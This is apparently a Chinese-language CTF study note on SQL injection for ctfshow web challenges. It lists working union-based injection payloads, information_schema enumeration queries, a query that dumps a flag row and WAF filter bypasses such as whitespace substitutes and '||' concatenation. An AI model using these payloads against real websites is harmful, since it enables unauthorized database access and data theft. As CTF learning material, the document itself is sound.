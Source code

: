 # sql注入学习1

<br>


## 第一步：判断注入类型

<br>

* 数字型: 使用 1 and 1=2和1 and 1=1来判断(如果没报错，那就不是数字型注入)
* 字符型： 试试可能的闭合符   '    "    ')    ")

<br>

## 第二步: 联合查询前写入语句

<br>

* 可能的闭合符   '  "  ')  ")
* 不需要的语句可以用注释符号 --+  #  %23 --%0c注释掉
* 使用group by 或者Order by 确定数据列数量:id=-2'group by 4--+
* 查找回显位:使你提交的结果能够在页面上给你体现出来 使用语句?id=-2'union select 1,2,3--+(回显的内容的数字就可以知道是哪个位置了)

<br>

## 第三步: 查询库 表 列
* 查找库名:?id=-2'union select 1,2,database()--+ (三号位就是苦库的名）
* 查找表名:id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+(这段话用于在总表information_schema中查找database()的库所对应的table_name，也就是显示这个库中所有的表名。而group_concat则可以把这些表拼接起来)
* 查找列名:id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() --+(原理几乎同上)

## 第四步：查询数据库
* -2'union select * from ctfshow_web.ctfshow_user where username = 'flag' --+ （在名为ctfshow_web的库里找到名为ctfshow_user的表，并且从中寻找列名username的值为flag的数据）

<br>

# 特别的绕过方式
* replace(username,'f','g'),使用改名使得flag绕过preg_match(只能对返回值过滤进行绕过)
* 空格绕过： %0a %0d %0c /**/ + `
* 换行绕过空格： %0b（用于空格绕过都不成功的情况）

<br>

## 一些更简洁的可以参考的playload
* 1'%0aunion%0asElect%0a1,2,%0agroup_concat(password)%0afrom%0actfshow_user%23
* -1'%0cor%0cusername='flag


<br>

## waf绕过
* 大小写
* 模糊搜索：在where处这样写 where pass like'%c%'(意思是在pass列中模糊搜索c开头的数据，其中的%可用%25替代)



<br>


## 基于原题下手的绕过
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
* 这段代码我们可以利用拼接来进行绕过
* 管道符-1'||username='flag
* 管道符-1'||(username)like'%fla%

## 布尔盲注：看脚本（用到where和select）


<br>

## regexp盲注：看脚本（where和select被过滤了可以用group by pass having pass regexp）

<br>

ctfshow-web184

<br>